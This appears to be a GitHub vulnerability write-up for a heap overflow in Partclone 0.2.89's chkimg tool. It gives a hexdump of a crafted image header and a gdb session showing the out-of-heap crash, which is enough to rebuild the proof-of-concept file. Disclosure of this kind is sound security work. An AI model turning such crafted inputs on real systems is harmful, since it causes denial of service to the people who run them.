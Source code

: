 # Partclone_HeapOverFlow


Partclone.chkimg that checks image has a vulnerability with openning a maliciusly craft image file.
It causes Denial-Of-Service.
<br><br>

root@ubuntu:/partclone-0.2.89# hexdump -C hack.img | more

00000000  70 61 72 74 63 6c 6f 6e  65 2d 69 6d 61 67 65 45  |partclone-imageE|

00000010  58 54 46 53 00 00 00 00  00 00 00 00 00 00 30 30  |XTFS..........00|

00000020  30 31 00 00 00 04 00 00  00 20 bf 0c 00 00 00 00  |01....... ......|

00000030  c8 2f 03 00 00 ff ff ff  ba 7a 00 00 00 00 00 00  |./.......z......|

00000040  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|

<br><br>

(insufficient checking on offset 0x35 ~ 0x37 in image-header.totalblock)

<br><br>
root@ubuntu:/partclone-0.2.89# gdb ./partclone.chkimg

Reading symbols from ./partclone.chkimg...done.
(gdb) r -s hack.img

Starting program: partclone-0.2.89/src/partclone.chkimg -s hack.img

[Thread debugging using libthread_db enabled]

Using host libthread_db library "/lib/i386-linux-gnu/libthread_db.so.1".

Partclone v0.2.89 http://partclone.org

Starting to check image (hack.img)

we need memory: 137438984768 bytes


image head 4160, bitmap 137438979580, crc 1028 bytes


Calculating bitmap... Please wait... image_hdr : 10000032fc8


totalblock size : 1099511836616


Program received signal SIGSEGV, Segmentation fault.


0x0804ed96 in pc_clear_bit (total=1099511836616, bitmap=0x8057d38, nr=1021504) at bitmap.h:53


53              bitmap[offset] &= ~(1UL << bit);


(gdb) x/x bitmap


0x8057d38:      0xffffffff


(gdb) p bitmap


$1 = (unsigned long *) 0x8057d38


(gdb) x/x bitmap+offset


0x8077000:      Cannot access memory at address 0x8077000		// Out of Heap memory area


(gdb) p offset


$2 = 31922


(gdb)

